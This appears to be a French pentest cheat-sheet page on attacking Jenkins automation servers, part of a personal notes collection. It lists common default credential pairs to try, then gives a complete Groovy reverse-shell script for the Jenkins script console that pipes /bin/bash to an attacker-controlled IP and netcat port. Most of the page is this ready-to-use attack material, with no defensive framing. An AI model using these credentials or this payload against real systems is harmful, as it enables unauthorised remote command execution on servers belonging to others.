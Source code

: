 <sub>[Procédure serveur](server_procedure.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Cryptage](cryptage.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Outils](tools.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Sites utiles](useful_website.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Lexique](lexique.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Index](index.md)</sub>
<sub>[Retour](web_server.md)</sub>
#Jenkins

**Utilisation :** free and open-source automation server, help to  building, testing, and deploying

**CMD :** cmd ***ARG***

**Utilisateurs fréquents :**
- admin:password
- admin:admin
- root:root
- root:password
- admin:admin1
- admin:password1
- root:password1

**Procédure :**
- CVE : groovy script dans les input => administration de Jenkins => console de script :
  >String host="*IP_ATTACKER*";
      int port=*PORT_NCAT*;
      String cmd="/bin/bash";
      Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new
      Socket(host,port);
      InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
      OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())
      {while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());
      while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
      {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
